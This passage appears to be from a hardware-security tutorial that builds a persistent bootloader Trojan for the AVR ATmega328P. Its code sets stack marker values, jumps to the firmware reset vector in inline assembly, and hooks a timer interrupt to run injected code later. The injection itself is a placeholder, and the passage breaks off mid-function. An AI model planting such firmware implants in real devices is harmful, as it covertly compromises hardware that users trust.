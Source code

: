 ```c
#if defined DO_TROJAN && defined __AVR_ATmega328P__

#define STACK_CHK1 *(volatile char*)(0x08F1)
#define STACK_CHK2 *(volatile char*)(0x08F2)
#define STACK_VAL1 17
#define STACK_VAL2 76

...
```

Now we need to alter our startup a little. Note that we changed the function call to boot the application to some inline assembly instead.
```c
void app_start(void) {
	move_interrupts();
	
	//set our barrier variables
	STACK_CHK1 = STACK_VAL1;
	STACK_CHK2 = STACK_VAL2;
	
	//clear the rest of our "globals"
	*(volatile char*)(0x08F3) = 0;
	*(volatile char*)(0x08F4) = 0;
	*(volatile char*)(0x08F5) = 0;
	*(volatile char*)(0x08F6) = 0;
	*(volatile char*)(0x08F7) = 0;
	*(volatile char*)(0x08F8) = 0;
	*(volatile char*)(0x08F9) = 0;
	*(volatile char*)(0x08FA) = 0;
	*(volatile char*)(0x08FB) = 0;
	*(volatile char*)(0x08FC) = 0;
	*(volatile char*)(0x08FD) = 0;
	*(volatile char*)(0x08FE) = 0;
	*(volatile char*)(0x08FF) = 0;
	
	//This is another way to cause a jump to the main firmware reset vector
	//Unlike calling "void (*app_start)(void) = 0x0000; app_start();" though, it doesn't mess with the stack
	//Given we are messing with the stack, this is valuable to us
	asm volatile(
		"clr	r30		\n\t"
		"clr	r31		\n\t"
		"ijmp	\n\t"
	);
}
```

Finally, then, let's make a Trojan which sticks around and doesn't trigger for a while! Here's the ISR:

```c
ISR(TIMER1_COMPA_vect) { //Notice that there is no ISR_NAKED 
	//check to see if the stack has been edited
	char stack_is_ours = 1;
	if(STACK_CHK1 != STACK_VAL1 || STACK_CHK2 != STACK_VAL2)
		stack_is_ours = 0;
		
	if(stack_is_ours) {
		//perform prologue injections here
	}
	
	//let's now call the real interrupt
	//remember we need to re-disable interrupts after this call, before they get a chance to run again
	//this is because the real ISR will terminate with a RETI
```